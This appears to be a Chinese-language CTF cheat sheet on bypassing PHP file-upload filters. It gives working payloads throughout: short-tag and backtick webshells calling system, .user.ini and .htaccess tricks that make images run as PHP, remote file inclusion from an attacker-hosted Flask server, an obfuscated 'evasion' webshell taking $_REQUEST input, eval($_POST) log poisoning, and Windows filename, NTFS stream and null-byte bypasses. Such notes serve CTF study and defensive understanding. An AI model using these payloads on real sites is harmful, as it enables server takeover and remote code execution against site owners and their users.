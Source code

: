 ```yaml
---
title: 文件上传
date: 2023-05-18 11:55:23
categories:
- 网络安全
tags:
- web 
description: |
  文件上传
---
```


### js前端检测

什么用都没有，直接改包

### .user.ini

>php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件，.user.ini就是用户自定义的一个php.ini，我们可以利用这个文件来构造后门和隐藏后门。

`auto_prepend_file=filename      //包含在文件头`
`auto_append_file=filename       //包含在文件尾`

eg:

```php
//.user.ini
auto_prepend_file=1.png

//1.png
<?php phpinfo();?>

//1.php(任意php文件)
```

### waf

#### 双写后缀

如题
应用场景：黑名单、使用str_ireplace()将匹配到的黑名单中的内容替换为空。

#### ban php

短标签形式`<?=system("tac ../f*");?>`

#### ban ()

反引号``<?=`tac ../f*`?>``

#### ban`;`

直接不用就好了`<?=system("tac ../f*")?>` 上面那个也行

#### ban 反引号 php ，利用文件包含

- include命令去配合php伪协议进行读取 拼接php
`<?=include"ph"."p://filter/convert.base64-encode/resource=../flag.p"."hp"?>`
- session包含
详见`web162.py`

#### ban 文件头

添加 `GIF89a`

### 远程文件包含

~~什么鬼啊，测试不通~~

```php

//GIF89a
//auto_prepend_file=http://730853355/

GIF89a
<?=include"http://730853355"?>
```

我误了，php搭建的服务器不知道为什么不行，flask路由即可，妙哉妙哉

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def home():
    return "<?php system('tac ../f*'); ?>"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9000)

```

```bash
GIF89a
auto_prepend_file=http://730853355:9000
```

### 二次渲染

图片里的马没了

png,jgp渲染都在`GD库`里面，所以可以用`imagecreatefrompng`函数来读取图片，然后再用`imagepng`函数来渲染图片，这样就可以绕过waf了。

文件里有脚本和图片，直接利用就好

### 文件头

```bash
gif的文件头为GIF89a；png的文件头为89504E47；jpg的文件头为FFD8FF
```

### Content-Type

```bash
text/html：HTML 格式
text/plain：纯文本格式
text/xml：XML 格式
image/gif：GIF 图片
image/jpeg：JPEG 图片
image/png：PNG 图片
audio/mpeg：MPEG 音频
audio/ogg：OGG 音频
audio/*：所有音频类型
video/mp4：MP4 视频
application/octet-stream：二进制流数据（例如，一些未知的或自定义的文件类型）
application/json：JSON 数据
application/pdf：PDF 数据
application/xml：XML 数据
application/zip x-zip-compressed：ZIP 压缩包
multipart/form-data：用于表单数据的提交
```

### .htaccess

.htaccess文件中有两种写法

```bash
<FilesMatch "xxx.png">
SetHandler application/x-httpd-php
</FilesMatch>
xxx.png即可作为php脚本解析
```

或者是

`AddType application/x-httpd-php .jpg`
`.jpg`为后缀额度文件都当做php解析

### 免杀

```php
<?php 
    $poc="s#y#s#t#e#m"; 
    $poc_1=explode("#",$poc); 
    $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5];
    $poc_2($_REQUEST['1']);
?>
```

### 日志文件包含

`User-Agent: <?php @eval($_POST['a']);?>`

.user.ini
`auto_prepend_file=/var/log/nginx/access.log`

满足这三个文件在同一目录下，则相当于在1.php文件里插入了包含语句require('1.png')，进行了文件包含

### 特殊可解析后缀

黑名单规则不严谨，在某些特定的环境中，某些特殊的后缀名仍然会被当做php文件解析。
`Php|php2|php3|php4|php5|php6|php7|pht|phtm|phtml`
比如，黑名单禁止上传`.asp|.aspx|.php|.jsp`后缀文件。但是Apache的httpd.conf配置文件中，有这样一行内容：`AddType application/x-httpd-php .php .php3 .phtml`
这里上传.php、.php3、.phtml后缀的文件都可以当做php文件来执行。

### 利用操作系统特性-Windows

利用Windows对于文件和文件名的限制，以下字符放在结尾时，不符合操作系统的命名规范，在最后生成文件时，字符会被自动去除。

上传文件名服务器文件名说明
`file.php[空格]file.php`
`file.php[.]file.php`无论多少个.都可以
`file.php[%80-%99]file.`phpBurp抓包，在文件名结尾输%80，CTRL+SHIFT+U进行URL-DECODE,或者增加一个空格，再在HEX视图中把20修改为80
上传文件名服务器生成文件名内容
`file.php::$DATAfile.phpfile.php`中的实际内容
`file.php::$DATA......file.php`实际

- 空格绕过
应用场景：服务器为Windows平台，在对用户上传的文件名进行处理时，没有使用trim()函数去除字符串收尾处的空白字符。

利用方式：用户上传图片马时，用Burp拦截，在文件尾部加入空格。例如：`xxx.jpg<space>`。带有空格的后缀可以绕过黑名单的检测，而文件存在在Windows服务器上，会自动去除后缀中的空格。

- 点绕过
应用场景：`Windows`平台，服务端没有使用`deldot()`删除文件名末尾的点。

利用方式：上传名为assert.php.的文件。在Windows服务器中，后缀名之后的点，在保存时，会被自动忽略。

- `::$DATA`绕过
应用场景：Windows平台，没有使用`str_ireplace()`将`::$DATA`替换为空，导致可以利用`NTFS`文件流特性。

利用方式：

假设xxx.php的内容为`<?php phpinfo();?>`

上传的文件名服务器表面现象生成的文件内容
`xxx.php:a.jpg`生成xxx.php
`xxx.php::$DATA`生成 xxx.php`<?php phpinfo();?>`
`xxx.php::$INDEX_ALLOCATION`生成xxx.php文件夹
`xxx.php::$DATA.jpg`生成0.jpg`<?php phpinfo();?>`
`xxx.php::$DATA\aaa.jpg`生成aaa.jpg`<?php phpinfo();?>`
这里，我们上传一个名为`xxx.php::$DATA`的木马，然后，在浏览器中访问xxx.php。

### `0x00`截断

条件：php版本<5.3.4、php.ini中的magic_quotes_gpc设置为off、上传路径可控、白名单

利用方式：

如果上传文件的路径为：用户可控的上传路径/随机数.白名单中的后缀 正常情况下，服务器拼接得到的上传图像地址为`$img_path =../upload/5920201223231032.gif` 但是，用户如果在可控上传路径中写入一个php后缀，并且php后缀后面有一个0x00字符 服务器拼接得到的上传图像地址会变为`$img_path =../upload/xxx.php[0x00]/5920201223231032.gif`对后缀进行白名单检测，为gif。但是保存在服务器上的文件，却是xxx.php，因为0x00之后的内容被截断了。

0x0a截断
原理同上
